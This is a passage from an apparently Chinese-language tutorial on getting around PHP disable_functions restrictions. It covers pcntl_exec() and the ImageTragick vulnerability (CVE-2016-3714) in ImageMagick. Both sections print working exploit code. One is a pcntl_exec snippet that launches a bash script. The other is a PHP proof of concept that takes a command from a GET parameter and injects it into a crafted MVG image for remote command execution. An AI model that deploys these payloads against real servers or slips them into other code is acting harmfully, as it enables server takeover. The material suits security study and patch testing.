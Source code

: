 ```
echo file_get_contents("/tmp/cmd_result"); 
?>
```

# 0x0a 利用Pcntl组件

如果目标机器安装并启用了php组件Pcntl,就可以使用pcntl_exec()这个pcntl插件专有的命令执行函数来执行系统命令,也算是过黑名单的一钟,比较简单。

[exp](https://github.com/l3m0n/Bypass_Disable_functions_Shell/blob/master/exp/pcntl_exec/exp.php)为:

```
#pcntl_exec().php
<?php pcntl_exec("/bin/bash", array("/tmp/b4dboy.sh"));?>
#/tmp/b4dboy.sh
#!/bin/bash
ls -l /
```

# 0x0b 利用ImageMagick 漏洞绕过(CVE-2016–3714)

利用条件:

- 目标主机安装了漏洞版本的imagemagick（<= 3.3.0）
- 安装了php-imagick拓展并在php.ini中启用；
- 编写php通过new Imagick对象的方式来处理图片等格式文件；
- PHP >= 5.4

#### ImageMagick介绍

ImageMagick是一套功能强大、稳定而且开源的工具集和开发包,可以用来读、写和处理超过89种基本格式的图片文件,包括流行的TIFF、JPEG、GIF、 PNG、PDF以及PhotoCD等格式。众多的网站平台都是用他渲染处理图片。可惜在3号时被公开了一些列漏洞,其中一个漏洞可导致远程执行代码(RCE),如果你处理用户提交的图片。该漏洞是针对在野外使用此漏洞。许多图像处理插件依赖于ImageMagick库,包括但不限于PHP的imagick,Ruby的rmagick和paperclip,以及NodeJS的ImageMagick等。

产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。

据ImageMagick官方，目前程序存在一处远程命令执行漏洞（CVE-2016-3714），当其处理的上传图片带有攻击代码时，可远程实现远程命令执行，进而可能控制服务器，此漏洞被命名为ImageTragick。
[EXP](https://www.exploit-db.com/exploits/39766)如下:

```
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
    $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```
